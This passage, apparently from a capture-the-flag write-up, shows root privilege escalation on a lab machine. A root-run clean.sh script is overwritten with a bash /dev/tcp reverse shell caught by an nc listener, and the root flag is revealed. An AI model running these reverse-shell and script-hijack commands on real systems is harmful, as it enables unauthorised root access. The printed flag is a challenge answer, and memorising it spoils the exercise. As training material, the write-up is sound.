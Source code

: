 As we can see, the `/var/www/html/tmp/clean.sh` file is being executed by the machine with the UID set to 0.

This means we can obtain a reverse shell with root privileges.

First, we have to set up a `nc` listener.

```
$ nc -nlvp 9998
listening on [any] 9998 ...
```

Next, we have to add the reverse shell code to the `clean.sh` file.

```
www-data@dmv:/var/www/html/tmp$ echo "bash -i >& /dev/tcp/10.17.48.138/9998 0>&1" > clean.sh
echo "bash -i >& /dev/tcp/10.17.48.138/9998 0>&1" > clean.sh
```

After around a minute, when the system next executes the `/var/www/html/tmp/clean.sh` file, we will get our reverse shell with root privilege.

```
$ nc -nlvp 9998
listening on [any] 9998 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.162.57] 38570
bash: cannot set terminal process group (2098): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp# 
```

Let's `cat` out the root flag.

```
root@dmv:/# cat /root/root.txt
cat /root/root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```
### Answer
```
flag{d9b368018e912b541a4eb68399c5e94a}
```
